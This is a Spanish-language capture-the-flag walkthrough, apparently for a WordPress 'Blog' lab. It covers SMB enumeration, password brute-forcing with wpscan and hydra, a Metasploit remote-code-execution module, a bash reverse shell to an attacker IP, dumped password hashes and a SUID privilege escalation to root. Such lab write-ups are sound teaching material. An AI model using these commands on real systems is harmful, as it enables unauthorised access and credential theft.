# Blog

samba>











Usuarios encontrado en la ref del f12 de la pag principal
*bjoel*
*kwheel*

Se puede hacer consultando SMB
`smbmap -H 10.10.157.115`



Vemos el usario *BillySMB*

Entramos con ese usuario
`smbclient /10.10.157.115/BillySMB`
`ls`



hacemos un `get` a todos los archivos, usamos `exiftool extract -sf imagen` pero no encuentro nada.

Hacemos wpscan:
`wpscan --url blog.thm -U kwheel,bjoel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login`
- password-attack : ataque de fuerza bruta
- wp-login : el recurso que tiene que logear por fuerza bruta
**kwheel:cutiepie1**

## Interesante con hydra

Registrarse en el login con por ejemplo, *kwheel:12345*
Consultar la petición POST que realiza el login con F12 para pasarsela a hydra por parámetros
F12 -> Network -> mirar peticion POST -> a la derecha en REQUEST marcar Raw:
*log=kwheel&pwd=12345&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1*



`hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.157.115 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V`
- http-post-form : le indica a **Hydra** que haga intentos de autenticación enviando **peticiones HTTP POST** al formulario de login de la web
- F= "xxx" : cadena que aparece en la respuesta cuando el login es incorrecto, así hydra sabe que el login ha fallado y no reporta falsos positivos. Por ejemplo "The password you enetered for the"





**cutiepie1**

msfconsole `exploit(multi/http/wp_crop_rce)`
`LHOST  10.8.63.150`
`RHOSTS  10.10.157.115`
`PASSWORD   cutiepie1 `
`USERNAME   kwheel`
`TARGETURI  /`
**www-data**

## Escalada

Shell enviada
`/bin/bash -c 'bash -i >& /dev/tcp/10.8.63.150/4444 0>&1'`
`nc -nvlp 5555`

En wordpress.config vemos credenciales de mysql  localhosque nos pueden servir:



`mysql -h localhost -u wordpressuser -p`
**mysql**

`show databases;`
`use wordpress`
`show tables;`



---> Cambio de IP a 10.10.197.38
$P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/
$P$BedNwvQ29vr1TPd80CDl6WnHyjr8te.

En `find / -perm -4000 2>/dev/null`
Vemos un archivo */usr/sbin/checker* que no está en GTFOBins
----->  **Pasaremos el archivo a la web (directorio /var/www/wordpress/checker) para poder descargarlo e inspeccionarlo con algún sofware de reversing**

'cp /usr/sbin/checker /car/www/wordpress/checker'
lo arbimos con *ghidra*



El script en C, comprueba si la variable admin vale el valor "admin"
`env` -> muestra todas las variables
`export admin=admin`
`/usr/sbin/checker`
**root**
